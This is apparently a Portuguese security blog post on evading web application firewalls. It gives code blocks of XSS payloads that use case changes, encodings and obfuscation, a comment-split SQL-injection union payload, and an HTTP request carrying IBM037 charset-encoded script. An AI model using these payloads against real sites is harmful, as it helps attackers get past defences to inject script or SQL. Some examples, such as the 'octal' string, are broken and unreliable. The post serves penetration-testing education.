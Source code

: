 ```yaml
---
date: 2023-01-07 16:58:42
layout: post
title: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
description: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_q61cuu.jpg
optimized_image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_optimized_ooub1l.jpg
category: ciberseguranca
tags:
  - waf
  - cybersecurity
author: brunocosta
paginate: false
---
```

> **Aviso: Conteúdo Sensível em Cibersegurança**

> Este aviso tem o objetivo de informar sobre a natureza sensível do conteúdo relacionado à cibersegurança que será abordado neste texto. O conteúdo a seguir foi criado com fins puramente educacionais e para pesquisa, visando a conscientização e a compreensão dos desafios enfrentados na proteção de sistemas e informações digitais.

Neste artigo, discutiremos as ferramentas e técnicas usadas por testadores de penetração de aplicativos da web e pesquisadores de segurança para contornar com sucesso as proteções do Firewall de Aplicativos da Web (WAF).

Dependendo dos mecanismos usados pelo firewall, os métodos de bypass podem variar. Por exemplo, os WAFs podem utilizar expressões regulares (regex) para detectar tráfego malicioso. As expressões regulares são usadas para identificar padrões em uma sequência de caracteres. Você pode ler mais sobre elas [aqui](https://regexr.com/). Além disso, os WAFs também podem usar detecção baseada em assinatura, na qual sequências conhecidas de tráfego malicioso possuem uma assinatura armazenada em um banco de dados, e o firewall verifica se há correspondência entre o tráfego da web e as assinaturas no banco de dados. Se houver correspondência, o tráfego é bloqueado. Além disso, alguns firewalls usam detecção baseada em heurística.

Agora vamos explorar algumas técnicas comuns de bypass do WAF juntamente com exemplos.

1.**Ignorando o Regex**: Este método se aplica à filtragem baseada em regex feita pelo WAF e pelo servidor web. Durante um teste de penetração de caixa preta, pode ser difícil descobrir a expressão regular exata utilizada pelo WAF. No entanto, se a expressão regular for conhecida, é possível contorná-la usando algumas técnicas. Aqui estão alguns exemplos:

- Alteração do caso da carga útil
- Uso de várias codificações
- Substituição de funções ou caracteres
- Uso de sintaxe alternativa
- Uso de quebras de linha ou tabulações

Os exemplos abaixo demonstram algumas abordagens para contornar o regex com comentários.
```
<sCrIpT>alert(XSS)</sCriPt> #alterando o case da tag
<< script>alert(XSS)</script > #prependendo um "<"
<script>alert(XSS) adicional // #removendo o fechamento tag
<script>alert`XSS`</script> #usando acentos graves em vez de parênteses
java%0ascript:alert(1) #usando caracteres de nova linha codificados
<iframe src=http://malicous.com < #colchetes angulares duplos
<STYLE >.classname{background-image:url( "javascript:alert(XSS)" );}</STYLE> #tags incomuns
<img/src=1/onerror=alert(0)> #ignorar filtro de espaço usando / where espera-se um espaço
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaa aaaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #caracteres extras
```


2.**Ofuscação**: Embora a ofuscação seja uma maneira possível de ignorar o regex, eles foram divididos em diferentes seções para mostrar mais exclusivamente uma seleção de técnicas de ofuscação. A ofuscação é uma técnica utilizada para tornar o código malicioso mais difícil de ser detectado pelo WAF. Aqui estão alguns exemplos de técnicas de ofuscação:

- Uso de funções incomuns além de alert, console.log e prompt
- Codificação octal
- Codificação Unicode
- Uso de comentários para quebrar instruções SQL
- Uso de acentos graves ao invés de parênteses
- Codificação Base64 do JavaScript
- Codificação HTML

Essas técnicas podem ajudar a contornar a detecção do WAF. Exemplos abaixo:
```
Function( "ale" + "rt(1)" )(); #usando funções incomuns além de alert, console.log e prompt
javascript:74163166147401571561541571411447514115414516216450615176 #codificação octal
<iframe src= "javascript:alert(`xss`)" > #codificação unicode
/? id =1+un/**/ion+sel/**/ect+1,2,3-- #usando comentários na consulta SQL para quebrar a instrução
new Function`alt\`6\``; #usando acentos graves ao invés de parênteses
data:text/html; base64 ,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 codificando o javascript
%26%2397;lert(1) #usando codificação HTML
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)" > #Using Line Feed (LF) line breaks
<BODY onload! #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use quaisquer caracteres que não sejam letras, números ou caracteres de encapsulamento entre o manipulador de eventos e o sinal de igual (só funciona no motor Gecko)
```


3.**Variáveis não inicializadas**: Uma técnica potencialmente útil envolve o uso de variáveis não inicializadas na solicitação. Isso pode ser especialmente útil em cenários de execução de comandos, onde o Bash trata variáveis não inicializadas como strings vazias. Ao concatenar strings vazias com uma carga útil de comando, é possível obter o resultado desejado. Isso pode ser usado como uma forma de ofuscação para contornar firewalls.



4.**Tamanho do conteúdo**: Alguns WAFs baseados em nuvem podem não verificar uma solicitação se o tamanho do conteúdo exceder um limite específico. Nesses casos, é possível contornar o firewall aumentando o tamanho do corpo da solicitação ou da URL.

5.**Conjunto de caracteres**: Essa técnica envolve a modificação do cabeçalho Content-Type para usar um conjunto de caracteres diferente, como por exemplo "ibm500". Um WAF que não está configurado para detectar cargas maliciosas em diferentes codificações pode não reconhecer a solicitação como maliciosa. A codificação do conjunto de caracteres pode ser feita em Python da seguinte maneira:

~~~python
$ python3
-- snip --
>>> import urllib.parse
>>> s = '<script>alert("xss")</script>'
>>> urllib.parse.quote_plus(s.encode("IBM037"))
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'
~~~

A string codificada pode então ser enviada no corpo da solicitação e carregada no servidor, como exemplificado abaixo:

~~~
POST /comment/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 74

%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
~~~

Essa técnica permite que a solicitação seja processada pelo servidor, contornando as verificações do WAF que não estão configuradas para detectar essa codificação específica.




Para obter mais informações e explorar outras técnicas, veja mais em:
- [How to bypass WAF - HackenProof Cheat Sheet](https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/)
- [Bypassing Web Application Firewall (WAF) - Unicode](https://jlajara.gitlab.io/Bypass_WAF_Unicode)
- [Web Application Firewall Bypass Techniques](https://blog.yeswehack.com/yeswerhackers/web-application-firewall-bypass/)
- [Identifying Web Application Firewall in a Network](https://www.sisainfosec.com/blogs/identifying-web-application-firewall-in-a-network/)
- [OWASP Stammtisch Frankfurt - WAF Profiling and Evasion](https://owasp.org/www-pdf-archive/OWASP_Stammtisch_Frankfurt_WAF_Profiling_and_Evasion.pdf)
- [5 Ways I Bypassed Your Web Application Firewall (WAF)](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2)

Esses recursos oferecem informações valiosas sobre como contornar as proteções do WAF em diferentes cenários.